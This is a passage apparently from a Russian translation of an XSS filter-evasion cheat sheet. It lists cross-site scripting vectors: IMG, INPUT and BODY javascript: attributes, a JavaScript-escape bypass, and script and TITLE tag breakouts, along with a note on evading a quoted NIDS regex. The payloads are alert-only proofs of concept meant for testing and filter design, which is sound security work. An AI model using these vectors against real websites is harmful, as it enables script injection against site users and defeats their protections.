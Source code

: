 (Представлено Łukasz Pilorz)

### Полуоткрытый HTML/JavaScript CSS вектор

В отличие от Firefox, движок рендеринга IE (Trident) не добавляет дополнительные данные на вашу страницу, но позволяет использовать директиву `javascript:` в изображениях. Это полезно в качестве вектора, поскольку для этого не требуется близкая угловая скобка. Это предполагает, что ниже есть какой-либо HTML-тег, в который вы вводите этот XSS-вектор. Даже если нет тега закрытия `\>`, теги под ним закроют его. Примечание: это приводит к путанице в HTML, в зависимости от того, какой HTML находится под ним. Это позволяет обойти следующее регулярное выражение системы обнаружения сетевых вторжений (NIDS): `/((\\%3D)|(=))\[^\\n\]\*((\\%3C)|\<)\[^\\n\]+((\\%3E)|\>)/`потому что для этого не требуется конец `\>`. В качестве дополнительного примечания, это также было эффективно против реального фильтра XSS, использующего открытый тег `<IFRAME` вместо тега `<IMG`.

```html
<IMG SRC="`<javascript:alert>`('XSS')"
```

### Обход экранирования JavaScript

Если приложение написано для вывода некоторой пользовательской информации внутри JavaScript (например, следующего: `<SCRIPT>var a="$ENV{QUERY\_STRING}";</SCRIPT>`), и вы хотите внедрить в него свой собственный JavaScript, но серверное приложение пропускает определенные кавычки, вы можете обойти это, избежав их escape-символа. Когда это будет введено, он прочитает `<SCRIPT>var a="\\\\";alert('XSS');//";</SCRIPT>`, что приведет к удалению двойных кавычек и запуску вектора XSS. Локатор XSS использует этот метод:

```js
\";alert('XSS');//
```

Альтернативный вариант, если к встроенным данным было применено правильное экранирование в формате JSON или JavaScript, но не в кодировке HTML, - это завершить блок сценария и запустить свой собственный:

```js
</script><script>alert('XSS');</script>
```

### Конечный тег заголовка

Это простой XSS-вектор, закрывающий теги `<TITLE>`, которые могут инкапсулировать вредоносную атаку с использованием межсайтовых сценариев:

```html
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
```

#### INPUT Атрибут
```html
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
```

#### BODY Атрибут

```html
<BODY BACKGROUND="javascript:alert('XSS')">
```

#### IMG Dynsrc 

```html
<IMG DYNSRC="javascript:alert('XSS')">
```

#### IMG Lowsrc
